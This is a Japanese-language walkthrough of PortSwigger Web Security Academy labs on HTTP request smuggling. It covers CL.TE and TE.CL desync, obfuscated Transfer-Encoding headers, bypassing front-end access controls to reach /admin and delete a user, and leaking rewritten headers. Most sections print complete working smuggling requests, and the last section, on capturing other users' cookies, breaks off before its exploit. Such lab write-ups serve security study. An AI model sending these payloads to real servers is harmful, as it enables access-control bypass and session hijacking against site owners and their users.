


# HTTP Request Smuggling
- [HTTP Request Smuggling](#http-request-smuggling)
  - [HTTP request smuggling, basic CL.TE vulnerability](#http-request-smuggling-basic-clte-vulnerability)
    - [Goal](#goal)
    - [Analyze](#analyze)
    - [Exploit](#exploit)
  - [HTTP request smuggling, basic TE.CL vulnerability](#http-request-smuggling-basic-tecl-vulnerability)
    - [Goal](#goal-1)
    - [Analyze](#analyze-1)
    - [Exploit](#exploit-1)
  - [HTTP request smuggling, obfuscating the TE header](#http-request-smuggling-obfuscating-the-te-header)
    - [Goal](#goal-2)
    - [Analyze \&\& Exploit](#analyze--exploit)
  - [HTTP request smuggling, confirming a CL.TE vulnerability via differential responses](#http-request-smuggling-confirming-a-clte-vulnerability-via-differential-responses)
    - [Goal](#goal-3)
    - [Analyze](#analyze-2)
      - [遅延を利用した特定 (CL.TE)](#遅延を利用した特定-clte)
      - [Responseの差分を使用した特定 (CL.TE)](#responseの差分を使用した特定-clte)
    - [Exploit](#exploit-2)
  - [HTTP request smuggling, confirming a TE.CL vulnerability via differential responses](#http-request-smuggling-confirming-a-tecl-vulnerability-via-differential-responses)
    - [Goal](#goal-4)
    - [Analyze](#analyze-3)
      - [時間遅延を利用した特定 (TE.CL)](#時間遅延を利用した特定-tecl)
      - [レスポンス差分](#レスポンス差分)
    - [Exploit](#exploit-3)
  - [Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](#exploiting-http-request-smuggling-to-bypass-front-end-security-controls-clte-vulnerability)
    - [Goal](#goal-5)
    - [Analyze](#analyze-4)
  - [Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](#exploiting-http-request-smuggling-to-bypass-front-end-security-controls-tecl-vulnerability)
    - [Goal](#goal-6)
    - [Analyze](#analyze-5)
    - [Exploit](#exploit-4)
  - [Exploiting HTTP request smuggling to reveal front-end request rewriting](#exploiting-http-request-smuggling-to-reveal-front-end-request-rewriting)
    - [Goal](#goal-7)
    - [Analyze](#analyze-6)
      - [CL.TEのテスト](#clteのテスト)
  - [Exploiting HTTP request smuggling to capture other users' requests](#exploiting-http-request-smuggling-to-capture-other-users-requests)
    - [Goal](#goal-8)
    - [Analyze](#analyze-7)
    - [Exploit](#exploit-5)

## HTTP request smuggling, basic CL.TE vulnerability

### Goal

Front-endとBack-endにサーバがあり、Front-endはTransfer-Encodingをサポートしておらず、GET. POSTを使用していないリクエストを拒否する。

クリア条件は、Back-endサーバが処理するリクエストが`GPOST`を使用しているように勘違いさせる。

### Analyze

`/`に対してリクエストを送ってみます。

defaultではGETです。

```text
GET / HTTP/2
Host: 0a0b00c20372a9bb839e5a5d006600ab.web-security-academy.net
Cookie: session=ENeUABQ9T7b9DFpvrpH3dnAc4P13LPhl
<redacted>

```

このリクエストは、POSTにしても同一の結果を得ることができます。

```text
POST / HTTP/2
Host: 0a0b00c20372a9bb839e5a5d006600ab.web-security-academy.net
Cookie: session=ENeUABQ9T7b9DFpvrpH3dnAc4P13LPhl
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
<redcated>


```

まずは、前提条件である`GET/POST`以外のリクエストを受け付けていないということを確認しておきます。


次に、Front-endはTransfer-Encodingをサポートしていないという条件を考えていきます。

HTTP/1では、`Content-Length`と`Transfer-Encoding`が同時にある場合、Content-Lengthを無視することで競合を回避しようとします。

Front-endがTransfer-Encodingをサポートしていないということは、Content-Legthを見ることになりますが、Back-endではTransfer-Encodingを見るはずです。


なんとなく方針が決まりました。

1. Front-endにすべてのメッセージをBack-endに転送させる
2. Back-endにはある位置箇所で区切るようにさせる。


コレによりリクエストが分割され後続リクエストの先頭にGが付きます。

### Exploit

```text
POST / HTTP/1.1
Host: 0ab700ee0357e6748519032700d100f2.web-security-academy.net
Cookie: session=g85hmwmJrWvKjtQESh1FzJJzvumQfPoT
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

このリクエストを複数回送るとクリアできるはずです。


## HTTP request smuggling, basic TE.CL vulnerability

### Goal
これもGPOSTにすればﾖｼです。

### Analyze

Front-endがTransfer-Encodingをサポートしていて、Back-endがTransfer-Encodingをサポートしていないラボです。

つまり、Transfer-EncodingですべてのRequest本文をBack-endに転送させ、Content-Lengthを利用してBack-endの解釈をいじり分割すれば良さそうです。

`request例`
```text
POST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

9e
GPOST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

body=
0

```

こうすることで以下のような解釈になります


Back-endにはすべてのリクエストメッセージが転送されますがBack-endはTransfer-EncodingをサポートしていないためContent-Lengthを見ることになります。

つまり、以下のような解釈をします。


コレにより、`GPOST / ...`が宙に浮き皇族のリクエストとして扱われるため`GPOST`となります。

### Exploit

攻撃を通すためにいくつかの設定を行いましょう。

まずはInspectorで`HTTP/2` -> `HTTP/1.1`にします。

次に、`Burp > Repeater > Message modification`の`Update cntent length`のチェックをOFFにします。

こうしないとContent-Lengthが自動的に更新されうまく行きません。

```text
POST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5d
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

body=
0


```


## HTTP request smuggling, obfuscating the TE header

### Goal

前回と同じ

### Analyze && Exploit

どちらも`Transfer-Encoding: chunked`を認識できてしまうため、`Transfer-Encoding: chunked`をいい感じにしてどちらかが解釈できないようにする必要があります。

まずはFront-Endが難読化を施したTransfer-Encodingを認識できない場合を考えてみます。

これはつまりFront-Endは、Content-Lengthを見るということです。


上記画像の状況ということになるが、この場合Conent-LengthをみてすべてのリクエストBodyがBack-endに飛ばされる。

Back-endでは、Transfer-Encodingをみるため以下のようになる。


とりあえずちまちまやっていくしかなさそう。


難読化の例としては以下がある。
```text
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```


これらをすべて試す必要がありそう。

- xchunked
  - 変化なし
- Transfer-Encoding : chunked
  - 変化なし
- Transfer-Encoding: chunked\r\nTransfer-Encoding: x
  - 500 Error


```
POST / HTTP/1.1
Host: 0a4d00d603ce8c8c80c1a37600a80067.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: x

0

G
```

こうした時500 Errorになりました

なんとなく怪しいので`CL.TE`ではなく`TE.CL`もみてみます


うまく行きました。

```text
POST / HTTP/1.1
Host: 0a4d00d603ce8c8c80c1a37600a80067.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5e
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

body=
0


```


## HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

### Goal

HTTP Request Smugglingを利用して後続のリクエストで404を引き出せばおけ

### Analyze

今回は前提条件として、Front-end, Back-endどちらが何をサポートしているかはわかる状況です。(###Goalには書いていませんが、Labの紹介ページには書いてあります。)

まず特定をするとき、`遅延を利用`、`レスポンスの差分を使用`するという二択があるようです。

今回のラボは、CL.TEなのでCL.TEの説明だけをしておきます。

#### 遅延を利用した特定 (CL.TE)


Back-endの解釈をみると、Transfer-Encodingを解釈するのにも関わらず、`0\r\n\r\n`がないためどこがリクエストの区切りか理解できていません。

そのため、待ちが発生しレスポンスに遅延が出るというもの。

#### Responseの差分を使用した特定 (CL.TE)

これは今までやったCL.TEのラボと同じですが

```text
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

こう送った時、


こうなります。

この結果後続のリクエストの先頭に`GET /404 HTTP/1.1\r\nFoo: x...`が付きます。

特定方法を見たところで、方針を立ててみます。

まずは時間遅延を用いて、脆弱性があるかどうかを特定し、その後レスポンスの差分を使用して`404`を引き出してみます。

`正常 リクエスト・レスポンス例`


では時間遅延を見ていきましょう。

```text
POST / HTTP/1.1
Host: 0abc00760353b2c5800eee1b000c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

1\r\n
a\r\n
```


このように送った時、Front-endは`Content-Length`を見るため、全てのメッセージをBack-endに転送します。

Back-endはTransfer-Encodingを見るため、メッセージの末尾に`0\r\n\r\n`を期待しますが、今回はないため約10sの待ちが発生しました

```text
POST / HTTP/1.1
Host: 0abc00760353b2c5800eee1b000c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Transfer-Encoding: chunked

1
a
0


```


待ちが発生しないようにするには、必要としている`0\r\n\r\n`をつけてあげれば良いです。

### Exploit

`GET /404 HTTP/1.1`誘発させる必要がありますが、これは特に難しくないです。

```text
POST / HTTP/1.1
Host: 0abc00760353b2c5800eee1b000c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

1
a
0

POST /404 HTTP/1.1
S: 
```


このようにしてあげればOKです。

理由としては、


このようになるためです。

`POST /404 HTTP/1.1\r\ns: `は後続のリクエストの先頭につながります。


## HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

### Goal

### Analyze

前回は、`CL.TE`の方法について確認しましたが、ここでは`TE.CL`の特定を確認しておきましょう。

#### 時間遅延を利用した特定 (TE.CL)


Content-Lengthは6なので、`0\r\n\r\n`+αを期待し、遅延が起きるというものです。

まぁ単純ですね。

#### レスポンス差分

これは、説明するまでもない気がするので行いません。

ではラボに戻りましょう。

`正常リクエスト・レスポンス`


まず、設定の確認をしておきます。

Burp > Settings > Repeater > Message modificationの`Update content length`のチェックを外しておきましょう。

これにより、Content-Lengthが自動で更新されなくなります。


上記設定が完了したら、時間遅延を確認していきます


このリクエストでは約10sかかりました。

これは、Back-endが`Content-Length`を見るため`0\r\n\r\n` + 3byteを待つため発生するものでした。

つまり、`Content-Length: 5`にすれば遅延は起きません。


特定ができたので`404`を引き起こしましょう。

### Exploit

```text
POST / HTTP/1.1
Host: 0a0c00bc03d443dc81ef8e7e0072006e.web-security-academy.net
Cookie: session=zG2nJ68LpFa34qkPc36ifKehjV1Q9N2fContent-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```


`TE.CL`なので、全てのリクエストがBack-endに転送され、Back-endは`Content-Length`を見るためContent-Length: 4で、`5e`までを１つのリクエストとして認識します。

そのため`POST /404 HTTP/1.1 ...`が浮き後続のリクエストの先頭につくため、`404`にたいしてのリクエストが出来上がります。

## Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

### Goal

`/admin`に管理パネルがあるが、Front-endサーバによってアクセスを禁止される。

クリア条件は、carlosを削除すること。

### Analyze

Frnt-endに課されたセキュリティ制御をバイパスする課題ですが、先にここを見ておきます。


だいたいこのような感じです。

`/post`は許可されたPathで誰からでも受け入れるためFront-endのアクセス制御を通過し、`/admin`は許可しないためFront-endのアクセス制御で落とされます。

この時、HTTP Request Smugglingを行うことができるならこの制御を通過することができます。

それではLabを見ていきましょう。

`正常リクエスト例`


`/admin`に対して許可されていないのを見ておきます。


では次に脆弱性があるかの確認をしていきます。

Front-endがContent-Lengthをみて、Back-endはTransfer-Encodingをみるので、

```text
POST / HTTP/1.1
Host: 0a570045043ffbdd81e87aea00b000ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
s: s
```


このように送ってあげれば良さそうです。

結果として、`/admin`にリクエストが到達できていそうなことがわかります。 (Front-endに弾かれると403のため。)


`localhost`でなければならなそうです。

```text
POST / HTTP/1.1
Host: 0a570045043ffbdd81e87aea00b000ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
s: 
```


またエラーが出ています。

`Duplicate header names are not allowed`つまり、Hostが重複しているため出ていそうです。

```text
GET /admin HTTP/1.1
Host: localhost
s: POST / HTTP/1.1
Host: 0a570045043ffbdd81e87aea00b000ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Transfer-Encoding: chunked

0
```

多分内部ではこのようなリクエストを解釈しています。

そのため、`Host header`が重複してしまっているのでしょう。

つまり以下のように送ればエラーが起きないはずです。

```text
POST / HTTP/1.1
Host: 0a570045043ffbdd81e87aea00b000ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 115
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```


こうすることで、Back-endが理解するであろうリクエストは、以下のようになるはずです

```text
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=P
```

管理画面からユーザ削除をするには、`/admin/delete?username=calos`に対してGETリクエストを送れば良さそうなのであとはやるだけです。

```text
POST / HTTP/1.1
Host: 0a570045043ffbdd81e87aea00b000ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```


## Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

### Goal

[前回のラボ](#exploiting-http-request-smuggling-to-bypass-front-end-security-controls-clte-vulnerability)と同じです。

### Analyze

前回のラボがTE.CLになっただけですので説明を省略します。


### Exploit

`正常リクエストの確認`


`/adminへのアクセス時の挙動の確認`


まず最初に、`Burp > Settings > Repeater`でContent-Lengthの自動更新を切っておきましょう。


今回はTE.CLのラボ (Front-end: Transfer-Encodingをみる、Back-end: Content-Lengthをみる)なので、

```text
POST / HTTP/1.1
Host: 0a5a00ba043ae64080366298007b002e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
0


```


前回のラボと同じような制限はありそうです。 (`localhost`)

まぁもう特に難しいところはないので、あとはやるだけです。

```text
POST / HTTP/1.1
Host: 0a5a00ba043ae64080366298007b002e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

86
GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Host: localhost

x=
0


```



## Exploiting HTTP request smuggling to reveal front-end request rewriting

### Goal

`carlos`を削除する

### Analyze

今回のラボは、Front-end -> Back-endの転送の際にリクエストの内容が書き換えられることでHTTP Request Smugglingがうまく行かない時をモチーフにしています。

Web Security AcademyではRequestの書き換えの例を挙げてくれています。

- TLS接続を終了し、使用されたプロトコルについてのヘッダーを追加する
- X-Forwarded-Forを追加
- Session Tokenに基づいてユーザを特定し、ユーザを識別するヘッダーの追加
- 何らかの機密情報の追加

あくまでもコレは例であり時と場合によりますが、このような追加されたヘッダーがない場合Back-endがリクエストを処理できない可能性がありもし仮にHTTP Request Smugglingが発生していてもうまく行かない場合があります。

この時、HTTP Request Smugglingを利用して、書き換え内容を取得することで攻撃を成功させる方法があるようです。

ではラボを進めます。

今回、CL.TEなのか、TE.CLなのか特に記載がないため特定から始める必要があります。


#### CL.TEのテスト


コレを見る限りCL.TEっぽい。

CL.TEだと信じてラボを進めます。

リクエストの書き換えをわかる必要があるので、何らかの入力値の反映箇所が必要となります。

今回のラボでは、機能として何かしらのコメントを投稿できそうです。

その部分を利用して成功しているかを確かめます。

requestを見てみると、csrfトークンがありここを利用するのは厳しいことがわかります。

* CSRF Tokenは自身のセッションと紐付いていて、必須とすることにします。(検査はめんどくさいのでしません)

```text
POST /post/comment HTTP/2
Host: 0a65001703bbaaa2800735c900ba00c3.web-security-academy.net
Cookie: session=hUxeBil3nhGJvOCkymaQ10JToOjE6Zz6
Content-Length: 100
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a65001703bbaaa2800735c900ba00c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a65001703bbaaa2800735c900ba00c3.web-security-academy.net/post?postId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8

csrf=kJ8J3422tN0oHUPegZ0X7mrOx85vIZqV&postId=1&comment=a&name=test&email=test%40example.com&website=
```

他に入力値が反映しそうな部分はSearch部分です。

こいつにはcsrf tokenが無いためここを利用することにします。

```text
POST / HTTP/1.1
Host: 0a65001703bbaaa2800735c900ba00c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

search=
```


うまく行っていそうです。

Content-Lengthを320くらいまでにするといい感じに情報が取得できます。

```text
POST / HTTP/1.1
Host: 0a65001703bbaaa2800735c900ba00c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 320

search=
```

結果を見るに、`X-jryLjZ-Ip: <redacted>`が追加されていそうです。

つまりこのように付け足してあげればこのラボはクリアできます。

```text
POST / HTTP/1.1
Host: 0a65001703bbaaa2800735c900ba00c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 151
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
X-jryLjZ-Ip: 127.0.0.1

search=
```


## Exploiting HTTP request smuggling to capture other users' requests

### Goal

Cookieを奪って他者でログインした状態にする。

### Analyze

これは、前回のラボに解法は似ているため特に説明はしません。

まずは脆弱性が存在するかのチェックを行っておきます。

`CL.TE`


時間遅延が発生するので、CL.TEだと思います。

脆弱性があることがわかったので次に機能の調査を行います。

他者のリクエストのキャプチャをする以上、入力を見れる必要があります。

今回のラボには何らかのコメントを投稿できる機能があるためコレを利用します。

`コメントを投稿する際のリクエスト例`
```text
POST /post/comment HTTP/2
Host: 0a8a00a303f172e281c3ccbe005c0011.web-security-academy.net
Cookie: session=D9nNtIA0mQRDjEKCBrQGpXTua1JBQkE6
Content-Length: 100
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a8a00a303f172e281c3ccbe005c0011.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8a00a303f172e281c3ccbe005c0011.web-security-academy.net/post?postId=9
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8

csrf=MwyrUA0WtGHoQs19TirqlQeVRUT8wZgY&postId=9&comment=test&name=test&email=test%40exam.com&website=
```

comment部分を利用して攻撃を行っていけば良さそうです。

### Exploit

方針は定まっているので、後はやるだけです。


